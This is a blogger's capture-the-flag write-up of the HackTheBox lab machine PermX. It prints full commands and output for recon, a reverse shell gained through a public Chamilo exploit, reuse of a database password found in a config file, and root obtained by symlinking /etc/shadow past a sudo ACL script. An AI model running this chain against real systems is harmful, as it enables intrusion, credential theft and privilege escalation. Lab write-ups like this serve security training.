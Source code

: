```yaml
---
title: 'HackTheBox: PermX'
date: 2024-10-04 14:18:00
author: w0rmhol3
categories: Write-Up
tags: CTF
cover: https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/HackTheBox/PermX/Cover.png?raw=true
---
```

So, I haven’t been playing HTB for quite sometime, and I finally had some motivation (or mood) to try out some boxes. So here is my writeup for the `HTB seasonal machine: PermX`.

![PermX Box](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/HackTheBox/PermX/PermX_Box.png?raw=true)

So, starting off, lets run nmap to look for the open ports.
```sh
┌──(w0rmhol3㉿QuackMachine2)-[~/Documents/CTF/HTB/Permx]
└─$ nmap -sC -sV -Pn 10.10.11.23 -o nmap-scan.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-11 09:24 EDT
Nmap scan report for 10.10.11.23
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Directly we can see only 2 ports open (SSH and HTTP), so lets start going through the web to see what we can find.

![webpage](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/HackTheBox/PermX/webpage.png?raw=true)

in short, this is some sort of an e-learning platform, nothing special from here, but this web took me quite some time to look around, fuzzing everything i can. and in the end, i decided maybe subdomain is worth to have a look as i don’t think there’s anything worth looking into from here. 

Using ffuf to enumerate it, i was able to found an interesting subdomain.

```sh
┌──(w0rmhol3㉿QuackMachine2)-[~/Documents/CTF/HTB/Permx]
└─$ ffuf -w /usr/share/wordlists/Discovery/DNS/subdomains-top1million-5000.txt -u http://permx.htb -H "Host: FUZZ.permx.htb" -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/SL/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 308ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 341ms]
:: Progress: [4989/4989] :: Job [1/1] :: 123 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```
`the ‘-fw 18’ is use to filter out the response size 18, as they are the ones that are invalid.`

As shown, the subdomain“lms.permx.htb” was found.

![chamilo](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/HackTheBox/PermX/webpage2.png?raw=true)

 When i saw this page, instantly i went to google and look for existing CVE, in which i had found CVE-2023-4220: Chamilo LMS Unauthenticated Big Upload File Remote Code Execution. This vulnerability allows an unauthenticated attacker to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell.

 I found an [exploit script](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) from github that can automate this attack to gain reverse shell directly.

 So, using the script and running netcat, i was able to gain a reverse shell.

 ```sh
┌──(w0rmhol3㉿QuackMachine2)-[~/Documents/CTF/HTB/Permx]
└─$ nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.23] 34572
bash: cannot set terminal process group (1169): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
 ```

And this is another part where I am stuck at, as this initial foothold does not comes with the user flag, I wrap my head around trying to figure out how to get to the user. So, what was needed to be done is to find a way to get mtz user account to get user.txt, then privilege escalate to root. It took me some time to figure out next is to find the config file.

```sh
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php
[snip]
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
[snip]
```

After taking my time enumerating the server, i found the configuration file that had led me to a credential.

So, I believe that the intentional method was to go through the sql database, and exploit from there, but when I found this credential, I instantly went and try to ssh into mtz account.

```sh
┌──(w0rmhol3㉿QuackMachine2)-[~/Documents/CTF/HTB/Permx]
└─$ ssh mtz@10.10.11.23                      
The authenticity of host '10.10.11.23 (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.23' (ED25519) to the list of known hosts.
mtz@10.10.11.23's password: 

Last login: Thu Jul 11 13:32:46 2024 from 10.10.16.50
mtz@permx:~$ 
```

WALLA, mtz account. So from here just read the user.txt to get the user flag.

```sh
mtz@permx:~$ cat user.txt 
[flag]
```

So user✅ all left is the privilege escalation.

```sh
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh

```

when trying to see what mtz is able of executing i found this /opt/acl.sh file.

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This file is not writeable, and can only be executed, so from the looks of it, executing this file is the only way to get root. So from my own understanding, I can see that it can mess with the file’s ACL, but I did utilized chatgpt to help me correctly use this function 

The explanation of this code is that, the [acl.sh](http://acl.sh) file will be able to change the file permission, that are within /home/mtz directory. 

This brings me the thought of changing the root credentials to mtz credentials by allowing modification on the /etc/shadow file. But to do so, an extra step of creating a symlink of /etc/shadow file in the user directory to change the file permission.

```sh
mtz@permx:~$ ln -s /etc/shadow ./
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/shadow
mtz@permx:~$ nano shadow
```

Then all i need to do is go and modify root credentials within the shadow file.

```sh
root:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:9999>
daemon:*:19579:0:99999:7:::
bin:*:19579:0:99999:7:::
sys:*:19579:0:99999:7:::
sync:*:19579:0:99999:7:::
games:*:19579:0:99999:7:::
man:*:19579:0:99999:7:::
lp:*:19579:0:99999:7:::
mail:*:19579:0:99999:7:::
news:*:19579:0:99999:7:::
uucp:*:19579:0:99999:7:::
proxy:*:19579:0:99999:7:::
www-data:*:19579:0:99999:7:::
backup:*:19579:0:99999:7:::
list:*:19579:0:99999:7:::
irc:*:19579:0:99999:7:::
gnats:*:19579:0:99999:7:::
nobody:*:19579:0:99999:7:::
_apt:*:19579:0:99999:7:::
systemd-network:*:19579:0:99999:7:::
systemd-resolve:*:19579:0:99999:7:::
messagebus:*:19579:0:99999:7:::
systemd-timesync:*:19579:0:99999:7:::
pollinate:*:19579:0:99999:7:::
sshd:*:19579:0:99999:7:::
syslog:*:19579:0:99999:7:::
uuidd:*:19579:0:99999:7:::
tcpdump:*:19579:0:99999:7:::
tss:*:19579:0:99999:7:::
landscape:*:19579:0:99999:7:::
fwupd-refresh:*:19579:0:99999:7:::
usbmux:*:19742:0:99999:7:::
mtz:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999>
lxd:!:19742::::::
mysql:!:19742:0:99999:7:::
```

As you can see, i modified the root password hash to be as same as mtz’s hash, hence it replaces the password to get the root access in the system. All i need to do now, is become root.

```sh
mtz@permx:~$ su
Password: 
root@permx:
```

THERE, ROOT.

```sh
root@permx:/home/mtz# cat /root/root.txt
[flag]
```

user✅root✅Permx✅